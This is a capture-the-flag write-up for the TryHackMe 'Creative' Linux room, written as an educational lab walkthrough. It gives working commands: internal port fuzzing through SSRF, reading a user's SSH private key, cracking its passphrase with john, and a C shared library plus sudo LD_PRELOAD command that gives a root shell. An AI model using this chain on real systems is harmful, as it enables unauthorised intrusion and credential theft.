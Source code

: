 ```yaml
---
date: 2024-04-17T22:14:41-05:00
# description: ""
image: "/images/THM-Creative/Creative.svg"
showTableOfContents: true
tags: ["TryHackMe"]
categories: ["Writeups"]
title: "THM: Creative"
type: "post"
---
```


* Platform: TryHackMe
* Link: [Creative](https://tryhackme.com/r/room/creative)
* Level: Easy
* OS: Linux
---

The challenge begins with a static website that is unexploitable. Through subdomain enumeration, a URL testing application is uncovered, susceptible to SSRF. However, full exploitation is only possible after discovering an internally exposed port. This access allows for file reading on the server, leading to the retrieval of an SSH private key. Yet, this alone isn't enough to establish a foothold. Success is achieved by cracking the obtained SSH key's hash, granting access to the target system. Finally, privilege escalation is done by exploiting the `LD_PRELOAD` environment variable.

Target IP - `10.10.119.61`

## Scanning 

```
nmap -sC -sV -oA nmap/Creative 10.10.119.61
```

**Results**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 20:52 CDT
Nmap scan report for 10.10.119.61
Host is up (0.27s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.97 seconds
```

We have two ports open, 22 (SSH) and 80 (Nginx). We are redirected to `http://creative.thm`. 

```
sudo echo "10.10.119.61 creative.thm" | sudo tee -a /etc/hosts
```

## Enumeration

The website appears to be rather simple, without anything exploitable. 

Directory enumeration and source code review do not yield anything.

Using ffuf for subdomain enumeration we find `beta`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fc 404 -t 100 -u http://creative.thm -H "Host: FUZZ.creative.thm" -ic -fs 178
```

![Beta subdomain found](/images/THM-Creative/beta-subdomain.png)

After adding it to the `/etc/hosts` file, we visit it and it turns out to be a URL tester.

![URL tester website](/images/THM-Creative/beta-url-tester.png)

Submitting `http://127.0.0.1:80` brings back the content of the main page without the styling, hinting to SSRF.

![URL tester SSRF 1](/images/THM-Creative/url-test.png)

Trying `http://creative.thm/etc/passwd` does not work. and returns `Dead`.

![File read attempt failed](/images/THM-Creative/file-read-fail.png)

### SSRF Internal Port Scanning

Let's try to discover the internal open ports on the target.

```
ffuf -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -w <(seq 1 65535) -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13
```

![Internal ports fuzzing](/images/THM-Creative/ffuf-cmd.png)

Port `1337` is discovered, by submitting `http://127.0.0.1:1337/` we are able to list the directories on the server.

![Directories on the server](/images/THM-Creative/server-directories.png)

In Burp we explore the file system and see what we can find. Let's go to `/home`.

![Home directory via SSRF](/images/THM-Creative/home-dir.png)

In `/home` we find a directory for `saad`. Going deeper with `http://127.0.0.1:1337/home/saad/` we discover the `.shh` folder and the user flag `user.txt`. 

Using `http://127.0.0.1:1337/home/saad/user.txt` will reveal the flag.

## Initial Foothold

By submitting `http://127.0.0.1:1337/home/saad/.ssh/id_rsa` we can grab the SSH key of the user.

![saad user SSH key](/images/THM-Creative/saad-ssh-key.png)

> Don't forget to set the correct permissions on the key with `chmod 600`.

Attempting to log in via SSH fails because we still need the passphrase of the user.

```
ssh saad@creative.thm -i id_rsa
```
![SSH login failed](/images/THM-Creative/ssh-fail.png)

We can use `john` to find the passphrase by converting the key into a crackable hash.

```
ssh2john id_rsa > hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Hash cracking to recover passphrase](/images/THM-Creative/passphrase.png)

The passphrase is found and we can now login.

![Initial foothold via SSH login](/images/THM-Creative/foothold.png)

## Privilege Escalation

One of the things we should always check is the `.bash_history` file. It reveals the account password for `saad`.

![Account password recovered](/images/THM-Creative/system-password.png)

With that password we are able to run `sudo -l`. The user is able to run `/usr/bin/ping` as root.

![Sudo -l command](/images/THM-Creative/sudo-l.png)

There is not much we can do with `ping`. We could try to replace the binary with a malicious one if we had write permissions to `/usr/bin/` but that is not the case, all the files are owned by root.

![Ping binary permissions](/images/THM-Creative/ping-binary.png)

Our next lead is the environment variable `LD_PRELOAD`.

> The `env_keep+=LD_PRELOAD` entry in the sudo configuration suggests that `saad` is allowed to preserve the `LD_PRELOAD` environment variable when running sudo commands. This could potentially be leveraged for loading malicious shared libraries.


`LD_PRELOAD` is an environment variable in Linux and other Unix-like operating systems. It allows a user to specify a list of additional shared libraries to preload before all others when a program is executed.

A great article about `Linux Privilege Escalation using LD_Preload` is available [here](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/). 

1. We go to `/tmp` and create a `shell.c` file.

```
cd /tmp
nano shell.c 
```

Here is the content of my file, I modified the one from the article because I was having issues during the compilation.

```C
#include <stdio.h>
#include <unistd.h> // Include this header for setuid() and setgid() functions
#include <stdlib.h>

void _init() 
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

2. We compile and link `shell.c` into a shared library named `shell.so`

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![Shared library permissions](/images/THM-Creative/shared-library.png)

3. Finally we execute the `ping` command with the `LD_PRELOAD` environment variable set to `/tmp/shell.so` and we get to root.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

![Privilege escalation and root flag](/images/THM-Creative/root-flag.png)

This was a pretty straightforward challenge, showing how one vulnerability can lead to an exploitation chain. The challenge also highlighted how misconfigurations can be used to an attacker's advantage. Until the next one, keep learning!
